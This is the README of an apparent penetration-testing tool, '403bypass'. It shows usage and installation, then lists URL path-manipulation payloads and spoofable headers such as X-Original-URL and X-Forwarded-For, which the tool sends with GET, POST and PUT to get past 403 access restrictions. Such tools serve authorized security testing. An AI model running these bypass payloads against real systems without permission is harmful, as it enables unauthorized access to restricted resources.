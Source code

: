 # 403bypass

A tool that automates 403 bypassing techniques. 

# Usage

```bash
echo "https://target.com/this/is/a/403/page" | 403bypass
```

```bash
cat urls.txt | 403bypass
```

# Installation

1 - Install httpx (https://github.com/projectdiscovery/httpx)

2 - `curl https://raw.githubusercontent.com/felipecaon/403bypass/main/403bypass.sh > /usr/local/bin/403bypass`

3 - `chmod +x /usr/local/bin/403bypass`

# Workflow

Generates a list of known payloads:

```
http://example.com
http://example.com/.
http://example.com/./
http://example.com/*
http://example.com..;/
http://example.com;/
http://example.com/%20
http://example.com/%2e
http://example.com/~
http://example.com/%09
http://example.com/.json
http://example.com/<encoded>
http://example.com.json
http://<domain-api>.com
http://example.com/.;/
http://example.com/#
http://example.com/?gg
http://example.com/%20/
http://example.com/%2e/
http://example.com/./
http://example.com//
https://example.com
```

The payloads above are requested using `GET`, `POST` and `PUT` methods. Additionaly, every request is made using a potentially vulnerable header from the list:

## Headers:
```
X-Forwarded-For
X-Forwarded-Host
X-Custom-IP-Authorization
X-Custom-IP-Authorization+..;/
X-Original-URL
X-Rewrite-URL
X-Originating-IP
X-Remote-IP
X-Client-IP
X-Host
X-Remote-Addr
```

# Contributing

Feel free to open issue or PR with additional payloads.


# Credits

Main structure is made by Raywando, https://github.com/Raywando/4xxbypass
